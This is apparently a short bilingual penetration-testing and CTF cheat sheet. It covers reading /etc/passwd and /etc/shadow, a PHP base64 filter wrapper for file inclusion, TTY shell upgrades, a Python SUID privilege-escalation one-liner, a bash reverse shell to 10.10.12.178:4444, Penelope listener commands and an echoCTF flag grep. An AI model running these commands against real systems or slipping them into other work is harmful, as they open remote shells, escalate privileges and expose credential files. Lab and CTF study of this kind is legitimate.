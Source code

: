 # Tips generales

### Directorios Principales

`/etc/passwd`
`/etc/shadow`

## PHP

### Encodear
`php://filter/convert.base64-encode/resource=FILENAME`

## Python

### Upgrade the shell  
```python
# python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
# Bash: No guarda logs
script -qc /bin/bash /dev/null
```

### Priv Esc

#### Python
`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
#### Shell


## Extras

- Penelope: https://github.com/brightio/penelope

```shell
bash -c 'exec bash >& /dev/tcp/10.10.12.178/4444 0>&1 &'
```

```shell
penelope                          # Listening for reverse shells on 0.0.0.0:4444
penelope -a                       # Listening for reverse shells on 0.0.0.0:4444 and show reverse shell payloads based on the current Listeners
penelope -p 5555                  # Listening for reverse shells on 0.0.0.0:5555
penelope -i eth0 -p 5555          # Listening for reverse shells on eth0:5555
penelope -c target -p 3333        # Connect to a bind shell on target:3333
penelope ssh user@target          # Get a reverse shell from target on local port 4444
penelope -p 5555 ssh user@target  # Get a reverse shell from target on local port 5555
penelope -i eth0 -p 5555 -- ssh -l user -p 2222 target  # Get a reverse shell from target on eth0, local port 5555 (use -- if ssh needs switches)
penelope -s <File/Folder>         # Share a file or folder via HTTP
```

- Ghidra
- IDA
- Decompiler Online: https://dogbolt.org

### Tips

#### echoCTF

`strings /proc//environ | grep "ETSCTF"`